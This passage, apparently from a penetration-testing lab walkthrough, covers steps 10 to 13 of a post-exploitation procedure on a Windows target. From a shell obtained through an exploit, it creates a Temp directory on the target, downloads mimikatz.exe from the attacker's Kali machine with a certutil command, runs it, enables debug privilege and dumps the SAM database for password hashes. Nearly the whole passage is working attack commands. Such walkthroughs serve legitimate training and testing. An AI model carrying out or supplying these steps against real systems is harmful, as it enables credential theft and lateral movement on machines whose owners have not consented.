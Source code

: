 This serves the **Mimikatz** executable over HTTP from the `/usr/share/windows-resources/mimikatz/x64/` directory.

---

**10. Preparing the Target (Creating a Temp Directory)**

On the target machine (via the shell obtained from the exploit), create a new temporary directory to store and execute `mimikatz.exe`:

```
cd C:\  
mkdir Temp  
cd Temp
```

This will create and navigate to the `Temp` directory on the `C:` drive.

---

**11. Downloading Mimikatz on the Target**

Using `certutil`, download `mimikatz.exe` from your Kali machine to the target system:

```
certutil -urlcache -f http://eth1/mimikatz.exe mimikatz.exe
```

Replace `eth1` with the IP address of your Kali Linux machine.

This command fetches `mimikatz.exe` from your HTTP server and saves it in the current directory on the target.

---

**12. Running Mimikatz**

Verify the download by listing the contents of the current directory:

```
dir
```

Now, execute `mimikatz`:

```
.\mimikatz.exe
```

---

**13. Dumping Credentials**

Once inside **Mimikatz**, enable debug privileges with the following command:

```
privilege::debug
```

Next, dump the **SAM database** (Security Account Manager) to retrieve hashed credentials:

```
lsadump::sam
```
